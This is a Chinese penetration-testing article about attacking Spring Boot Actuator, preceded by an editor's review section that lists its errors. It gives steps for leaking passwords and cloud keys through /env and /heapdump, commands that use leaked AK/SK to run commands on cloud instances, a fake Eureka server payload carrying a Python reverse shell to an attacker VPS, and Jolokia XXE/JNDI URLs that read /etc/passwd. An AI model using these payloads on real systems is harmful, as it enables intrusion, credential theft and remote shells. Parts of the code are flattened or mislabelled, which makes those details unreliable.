## 核对与使用边界

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Whitelabel 列旧版；Eureka &lt;1.8.7；JNDI/JDK 写不精确；多数链依写 env、refresh/restart 和类路径组合

代码与实验材料：302 行全文；Eureka 完整 XML 结构尚在但 Python 被反引号压平；其他 XXE/JNDI 材料只在图片

来源证据范围：有宸极实验室作者、LandGrey、Spac eraccoon（原文 spaceraccoon.dev）和 su18 来源

- **来源与引用处置（1）**：version 元数据污染为密码描述；依据：frontmatter version 是获得密码明文的一句话，与任何版本无关。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **证据待核（2）**：Whitelabel 文本 PoC 缺闭合定界；依据：${T(...exec(new String(...)) 最后没有 }，与上下文 #{...}/${...} 说明也混用。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **操作与副作用边界（3）**：依赖和产品混淆；依据：将 refresh/restart 归为只需 Boot starter-actuator；AWS 信息后却使用阿里云 AK/SK 工具，不能跨云等同。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **结论使用边界（4）**：Jolokia XXE 与 JNDI 两条链混写；依据：原理把 XML 外部实体解析与 insertFormJNDI 连为必然步骤，标签本身也拼错。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（5）**：代码抽取破坏复现；依据：OQL、Flask 程序逐行反引号全部挤在一行；JDK 6u201/7u191/8u182/11.0.1 的小于边界需官方确认。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（6）**：H2 副作用和前提未完整；依据：需要 HikariCP+H2 的权限和编译支持，CREATE ALIAS 后 CALL 会持久改库，restart 影响可用性。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 『渗透测试』Spring-boot 几种常见的利用方式

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1gR2QDquslj6fUmB6EpyOA)

> 作者：宸极实验室，hdsec

0x00 前言
-------

在日常的项目中经常会遇到使用`Spring Boot`框架的网站，小编对该框架的常见利用方式进行了整理。此文中的漏洞环境均在本地搭建。

0x01 信息泄露
---------

### 1.1 漏洞利用

在拿到一个网站后通常通过两个位置判断网站是否使用了`Spring Boot`框架。1、网站图片文件是一个绿色的树叶。2、特有的报错信息。



如果开发人员配置不当，将接口暴露在公网上或者未配置权限限制访问，黑客可以使用以下的`Actuator`监控原生端点获取到一些网站的敏感数据。  

<table width="935" style="width: 768px;"><thead style="outline: 0px;max-width: 100%;box-sizing: border-box;line-height: 1.5;background-color: rgba(0, 0, 0, 0.05);overflow-wrap: break-word !important;"><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">路径</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">描述</td></tr></thead><tbody style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/autoconfig</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露应用的自动化配置报告，包括所有自动化配置的候选项。同时还列出了每个候选项自动化配置的各个先决条件是否满足</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/beans</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露应用上下文中创建的所有Bean</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/env</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露环境配置信息</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/configprops</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露应用中配置的属性信息报告</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/dump</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露程序运行中的线程信息</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/health</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露应用程序的健康指标</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/info</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露应用程序的定制信息</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/mappings</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露描述全部的URI路径，以及它们和控制器(包含Actuator端点)的映射关系</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/metrics</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露报告各种应用程序度量信息，比如内存用量和HTTP请求计数</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/shutdown</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">关闭应用程序</td></tr><tr style="outline: 0px;max-width: 100%;box-sizing: border-box;overflow-wrap: break-word !important;"><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">/trace</td><td style="padding: 4px 8px;outline: 0px;word-break: break-all;border-color: rgb(223, 223, 223);max-width: 100%;box-sizing: border-box;line-height: 1.5;font-size: 12.8px;overflow-wrap: break-word !important;">泄露用户请求http头和用户敏感信息</td></tr></tbody></table>

`GET`请求`/env`会泄露环境变量信息，或者配置中的一些用户名，当程序员的属性名命名不规范会泄露密码明文。



  

通过`/env`端口泄露的信息发现使用的是`AWS`云主机。



  

正常`GET`请求目标`/heapdump`或`/actuator/heapdump`接口获取被星号脱敏的密码的明文，下载应用实时的`JVM`堆信息。成功下载，如下图所示。


使用`Eclipse Memory Analyzer`工具的`OQL`（对象查询语言）语句：

```
`spring boot 1.x版本``select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))``spring boot 2.x版本``select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))`
```

辅助快速过滤分析，获得密码明文。成功获取`challengepassword`密码 `*.H......`



但是有点遗憾的是该目标网站并没有找到 `accessKey`、`secreKey`，如果能成功查询出这两个Key就可以利用下面的工具进行命令执行等系列操作，或者使用行云管家对主机进行绑定。

### 1.2 利用工具

工具地址：_https://github.com/iiiusky/alicloud-tools_ 指定 `AK/SK` 查看所有实例信息：

```
./AliCloud-Tools  -a xxx -s xxx ecs --list
```

运行上条命令拿到示例 ID，之后就可以执行命令了：

```
./AliCloud-Tools  -a xxx -s xxx ecs exec -I 实例ID -c "whoami"（可以反弹shell等一系列操作。）
```

0x02 Eureka XStream Deserialization RCE
---------------------------------------

`Eureka`是`Netflix`开发的服务发现框架，本身是一个基于`REST`的服务，主要用于定位运行在`AWS`域中的中间层服务，以达到负载均衡和中间层服务故障转移的目的。`Spring Cloud`将它集成在其子项目`Spring-Cloud-Netflix`中，以实现`Spring Cloud`的服务发现功能。

### 2.1 漏洞原理

（1）`eureka.client.serviceUrl.defaultZone` 属性被设置为恶意的外部 `eureka server URL` 地址。

（2）`refresh` 触发目标机器请求远程`URL`，提前架设的`fake eureka server`就会返回恶意的`payload`。

（3）目标机器相关依赖解析`payload`，触发`XStream`反序列化，造成`RCE`漏洞。

### 2.2 利用条件

（1）可以`POST`请求目标网站的`/env`接口设置属性。

（2）可以`POST`请求目标网站的`/refresh`接口刷新配置（存在 spring-boot-starter-actuator 依赖）。

（3）目标使用的`eureka-client < 1.8.7`（通常包含在 spring-cloud-starter-netflix-eureka-client 依赖中）。

（4）目标可以请求攻击者的`HTTP`服务器（请求可出外网）。

### 2.3 漏洞利用

通常`Eureka`是在`Netflix`上部署，我们利用关键词`netflix`或者 `eureka.client.serviceUrl.defaultZone`在`env`端点泄露的信息中进行搜索。



在`VPS`上搭建`Eureka Server`，启动该服务的端口是 2333。反弹`shell`的端口是 443，反弹`shell`的`ip`是启动服务的地址。

```
`#!/usr/bin/env python``# coding: utf-8``# -**- Author: LandGrey -**-``from flask import Flask, Response``app = Flask(__name__)``@app.route('/', defaults={'path': ''})``@app.route('/<path:path>', methods=['GET', 'POST'])``def catch_all(path):` `xml = """<linked-hash-set>` `<jdk.nashorn.internal.objects.NativeString>` `<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">` `<dataHandler>` `<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">` `<is class="javax.crypto.CipherInputStream">` `<cipher class="javax.crypto.NullCipher">` `<serviceIterator class="javax.imageio.spi.FilterIterator">` `<iter class="javax.imageio.spi.FilterIterator">` `<iter class="java.util.Collections$EmptyIterator"/>` `<next class="java.lang.ProcessBuilder">` `<command>` `<string>/bin/bash</string>` `<string>-c</string>` `<string>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your-vps-ip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'</string>` `</command>` `<redirectErrorStream>false</redirectErrorStream>` `</next>` `</iter>` `<filter class="javax.imageio.ImageIO$ContainsFilter">` `<method>` `<class>java.lang.ProcessBuilder</class>` `<name>start</name>` `<parameter-types/>` `</method>` `<name>foo</name>` `</filter>` `<next class="string">foo</next>` `</serviceIterator>` `<lock/>` `</cipher>` `<input class="java.lang.ProcessBuilder$NullInputStream"/>` `<ibuffer></ibuffer>` `</is>` `</dataSource>` `</dataHandler>` `</value>` `</jdk.nashorn.internal.objects.NativeString>``</linked-hash-set>"""` `return Response(xml, mimetype='application/xml')``if __name__ == "__main__":` `app.run(host='0.0.0.0', port=2333)`
```

  



抓包改变请求方式`GET→POST` ，修改`eureka.client.serviceUrl.defaultZone`属性为启动`eureka server`地址。



访问`/refresh`刷新设置。



服务端接收到请求。



在`VPS`的 443 端口设置监听，可以看到成功反弹`shell`。



0x03 Jolokia 组件漏洞
-----------------

`Jolokia` 是一个用来访问远程`JMX MBeans`的方法，它可以利用`JSON`通过`Http`实现`JMX`远程管理的开源项目，即允许对所有已经注册的`MBean`进行`Http`访问，具有快速、简单等特点。除了支持基本的`JMX`操作之外，它还提供一些独特的特性来增强`JMX`远程管理如：批量请求，细粒度安全策略等。

### 3.1 漏洞原理

（1）直接访问可触发漏洞的`URL`，相当于通过`jolokia`调用 `ch.qos.logback.classic.jmx.JMXConfigurator`类的`reloadByURL`方法。

（2）目标机器请求外部日志配置文件`URL`地址，获得恶意`xml`文件内容。

（3）目标机器使用`saxParser.parse`解析`xml`文件 (这里导致了 xxe 漏洞)。

（4）`xml`文件中利用`logback`依赖的`insertFormJNDI`标签，设置了外部`JNDI`服务器地址。

（5）目标机器请求恶意`JNDI`服务器，导致`JNDI`注入，造成`RCE`漏洞。

### 3.2 利用条件

（1）目标网站存在`/jolokia`或`/actuator/jolokia`接口。

（2）目标使用了`jolokia-core`依赖（版本要求暂未知）并且环境中存在相关`MBean`。

（3）目标可以请求攻击者的`HTTP`服务器（请求可出外网）。

（4）`JNDI`注入受目标`JDK`版本影响，`jdk < 6u201/7u191/8u182/11.0.1`（LDAP 方式。

### 3.3 XXE 漏洞利用

在 `VPS` 上创建 `XXE` 攻击文件，并使用命令`python -m SimpleHTTPServer 8888`开启`web`服务。




```
`构造连接：``http://10.27.2.188:9099/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/vps-ip:8888!/logback.xml`
```

可以成功读取`/etc/passwd`文件内容。



### 3.4 Jolokia Logback JNDI RCE 漏洞利用

首先在 `VPS` 上上传 JNDI[1]，并启动 `JNDI` 服务 `java -jar JNDI-1.0-all.jar`

